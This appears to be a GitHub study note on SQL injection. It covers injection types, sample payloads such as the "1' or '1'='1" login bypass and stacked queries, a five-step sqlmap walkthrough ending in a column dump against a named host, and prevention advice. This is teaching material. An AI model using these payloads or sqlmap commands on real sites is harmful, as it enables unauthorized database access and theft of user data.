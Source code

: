 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to application Server.

## Impact

A successful SQL injection attack can result in:
- Authentication Bypass 
- Unauthorized access of sensitive data, like: Personal user information, Passwords, Credit card details, etc.
- Attacker can obtain a persistent backdoor into an organization's systems.

## SQL Injection Technique

### 1. In-band SQLi (Classic SQLi)
   - ***Error-based SQLi:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
   - ***Union-based SQLi:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
 
### 2. Inferential SQLi (Blind SQLi)
   - ***Boolean-based:*** use Boolean condition(s) to verify whether certain conditions are true or false.
   - ***Time-based:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

### 2. Out-of-band SQLi
   This technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).

### Second-order SQL injection (also known as stored SQL injection):
First-order SQL injection arises where the application takes user input from an HTTP request and,in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection, the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
<table>
<tr>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png) </td>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png) </td>
</tr>
</table>

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection

1. Prevented by using ***Parameterized queries***, instead of string concatenation within the query. (also known as ***Prepared statements***)
2. Filter out special charactercharacter like:`' " - # / \ ; NULL , () @` in all strings from:
   - Input from users
   - Parameters from URL
   - Values from cookie

Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

## Refrence
- https://portswigger.net/web-security/sql-injection
